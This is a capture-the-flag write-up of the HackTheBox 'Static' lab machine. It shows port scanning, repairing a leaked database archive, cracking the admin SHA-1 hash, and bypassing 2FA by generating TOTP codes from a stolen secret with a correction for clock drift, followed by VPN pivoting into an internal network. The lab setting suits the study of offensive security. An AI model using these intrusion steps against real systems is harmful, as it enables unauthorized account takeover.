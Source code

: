 > Author: **[ompamo][author-profile]**

## Discovery

### Port Scanning

```bash
PORT     STATE SERVICE
22/tcp   open  ssh
2222/tcp open  EtherNetIP-1
8080/tcp open  http-proxy
```

```bash
PORT    STATE SERVICE
123/udp open  ntp
```

### Web Browsing

`http://10.10.10.246:8080` is blank ?!

Still there's a `robots.txt` file:

```
Disallow: /vpn/
Disallow: /.ftp_uploads/
```

There's a compresed database, and a warning:

```
Binary files are being corrupted during transfer!!! Check if are recoverable.
```

Indeed:

```bash
gunzip db.sql.gz 
# gzip: db.sql.gz: invalid compressed data--crc error
# gzip: db.sql.gz: invalid compressed data--length error
```

## Break-in

### Mining the Archive

The corrupted archive can be fixed with [`fixgz`][fixgz], the official recovery tool
from gzip:

```bash
git clone https://github.com/yonjar/fixgz && cd fixgz
g++ fixgz.cpp -o fixgz
./fixgz db.sql.gz db.sql.fixed.gz
gunzip db.sql.fixed.gz && mv db.sql.fixed db.sql
cat db.sql
# INSERT INTO users ( id, username, password, totp ) VALUES ( null, 'admin', 'd033e22ae348aeb5660fc2140aec35850c4da997', 'orxxi4c7orxwwzlo' );
```

Next:

```bash
hashid d033e22ae348aeb5660fc2140aec35850c4da997
# [+] SHA-1 
# [+] Double SHA-1 
# [+] RIPEMD-160 
# [+] Haval-160 
# [+] Tiger-160 
# [+] HAS-160 
# [+] LinkedIn 
# [+] Skein-256(160) 
# [+] Skein-512(160)
hash-identifier d033e22ae348aeb5660fc2140aec35850c4da997
# Possible Hashs:
# [+] SHA-1
# [+] MySQL5 - SHA-1(SHA-1($pass))

# Least Possible Hashs:
# [+] Tiger-160
# [+] Haval-160
# [+] RipeMD-160
# [+] SHA-1(HMAC)
# [+] Tiger-160(HMAC)
# [+] RipeMD-160(HMAC)
# [+] Haval-160(HMAC)
# [+] SHA-1(MaNGOS)
# [+] SHA-1(MaNGOS2)
# [+] sha1($pass.$salt)
# [+] sha1($salt.$pass)
# [+] sha1($salt.md5($pass))
# [+] sha1($salt.md5($pass).$salt)
# [+] sha1($salt.sha1($pass))
# [+] sha1($salt.sha1($salt.sha1($pass)))
# [+] sha1($username.$pass)
# [+] sha1($username.$pass.$salt)
# [+] sha1(md5($pass))
# [+] sha1(md5($pass).$salt)
# [+] sha1(md5(sha1($pass)))
# [+] sha1(sha1($pass))
# [+] sha1(sha1($pass).$salt)
# [+] sha1(sha1($pass).substr($pass,0,3))
# [+] sha1(sha1($salt.$pass))
# [+] sha1(sha1(sha1($pass)))
# [+] sha1(strtolower($username).$pass)
john -w /usr/share/wordlists/passwords/rockyou-70.txt admin.hash
```

> admin admin...

### Bypassing 2FA

These credentials work on `http://10.10.10.246:8080/vpn/login.php`, but the
server asks for a 2FA code.

Hopefully the DB provided `totp`, the secret for the OTP generation. More
precisely a time based OTP, TOTP.


The PHP module [otphp][otphp] can process the secret and output a OTP, but
it fails when entered.

I tried several methods and they all failed until I scrolled this very doc
and noticed the NTP service on the UDP scan: the OTP is framed in time and
my clock wasn't synchronized...

Since my machine won't sync with the server, another solution is to input the
time delta with the server manually when generating the OTP.

```bash
ntpdate -vd 10.10.10.246
#  6 Nov 10:55:24 ntpdate[4259]: ntpdate 4.2.8p15@1.3728-o Wed Jul  1 17:02:17 UTC 2020 (1)
# Looking for host 10.10.10.246 and service ntp
# 10.10.10.246 reversed to static.htb
# host found : static.htb
# transmit(10.10.10.246)
# receive(10.10.10.246)
# 10.10.10.246: Server dropped: strata too high
# stratum 16, precision -24, leap 11, trust 000
# refid [INIT], root delay 0.000000, root dispersion 0.040192
# reference time:      (no time)
# originate timestamp: e531074e.727fed58  Sat, Nov  6 2021 14:53:18.447
# transmit timestamp:  e53103b8.2692fc06  Sat, Nov  6 2021 14:38:00.150
# filter delay:  0.18254    0.22990    0.09621    0.09340   
#                ----       ----       ----       ----      
# filter offset: +918.23436 +918.30527 +918.26238 +918.26256
#                ----       ----       ----       ----      
# delay 0.09340, dispersion 0.01247, offset +918.262565
 cat otp.php 
# <?php
# include 'otphp/lib/otphp.php';

# $totp = new \OTPHP\TOTP("orxxi4c7orxwwzlo");
# echo $totp->at(time() + 918.23436);
# ?>
php otp.php | xclip -sel clipboard
```

Another solution I tried was to manually add the clock delta to my system time:

```bash
sudo timedatectl set-time $(date -d "@$(( $(date +%s) + 918))" +"%T")
```

A detail that took most of my time...

## Lateral Movement

We download the "web" VPN and add the corresponding `vpn.static.htb`.

At first it failed with:

```
2021-11-06 19:44:04 failed to find GID for group nogroup
2021-11-06 19:44:04 Exiting due to fatal error
```

This fixed it:

```bash
perl -pe "s#group nogroup#group nobody#g" web.ovpn
```

```bash
ip address
# 8: tun9: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
#     link/none 
#     inet 172.30.0.9/16 scope global tun9
#        valid_lft forever preferred_lft forever
#     inet6 fe80::ff:1b39:830:7858/64 scope link stable-privacy 
#        valid_lft forever preferred_lft forever
ip route add 172.20.0.0/24 dev tun9
```

Then an internal webserver is exposed:

![][phpinfo]

[author-profile]: https://app.hackthebox.com/users/9631

[otphp]: https://github.com/lelag/otphp
[fixgz]: https://github.com/yonjar/fixgz
[phpinfo]: images/screenshots/phpinfo.png
